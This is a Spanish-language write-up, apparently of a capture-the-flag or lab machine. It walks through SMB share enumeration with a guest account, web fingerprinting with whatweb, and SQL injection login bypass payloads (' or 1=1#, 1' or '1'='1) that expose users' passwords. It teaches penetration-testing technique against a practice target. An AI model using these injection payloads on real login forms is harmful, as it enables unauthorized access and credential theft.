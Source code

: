 El script `smb-enum-shares` enumera recursos compartidos como habíamos dicho, pero usa la cuenta que tenemos `guest`, es decir, simulamos un acceso anónimo.

Se logró ver algo inusual; `IPC$` normalmente no comparte archivos, se usa para la comunicación de procesos, pero el `READ/WRITE` indica acceso (como si se utilizara para archivos). Cosa que no pasa con `print$`.

Con esta carpeta mal configurada, se obtuvo un posible vector de ataque.

Se procedió con el reconocimiento ya que hay un puerto 80 esperando...
En un primer reconocimiento, podemos intuir que se trata de un login:
```python
$whatweb http://192.168.0.69
http://192.168.0.69 [200 OK] Apache[2.2.8], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch], IP[192.168.0.69], PHP[5.2.4-2ubuntu5.6][Suhosin-Patch], PasswordField[mypassword], X-Powered-By[PHP/5.2.4-2ubuntu5.6]
```

Con el payload `' or 1=1#` en ambos campos, obtuvimos esto:
```html
User \'or 1=1<br><br>

Oups, something went wrong with your member's page account.<br>
Please contact your local Administrator<br>
to fix the issue.<br>
<form method="link" action="index.php">
<input type=submit value="Back"></form>
```

Con esta respuesta, notamos una escapada del caracter comilla `\'`, y que el caracter octothorpe no se considera, es decir, al lograr baipasear la escapada de la comilla, podemos obtener un ataque.
#### Engaño
Con las pruebas se observo que la escapada aplica al nombre de usuario solamente, se probó con los usuarios obtenidos en samba y con el usuario robert y la contraseña `1' or '1'='1`, se obtuvo esto:
```html
<tr><td width="30">Username</td>
	<td width="464">robert</td>
</tr>
<tr>
    <td width="30">Password</td>
	<td width="464">ADGAdsafdfwt4gadfga==</td>
</tr>
```

Tienpo después se logró obtener también la contraseña del usuario `john`:
```html
<tr><td width="30">Username</td>
	<td width="464">john</td>
</tr>
<tr>
    <td width="30">Password</td>
	<td width="464">MyNameIsJohn</td>
</tr>
```
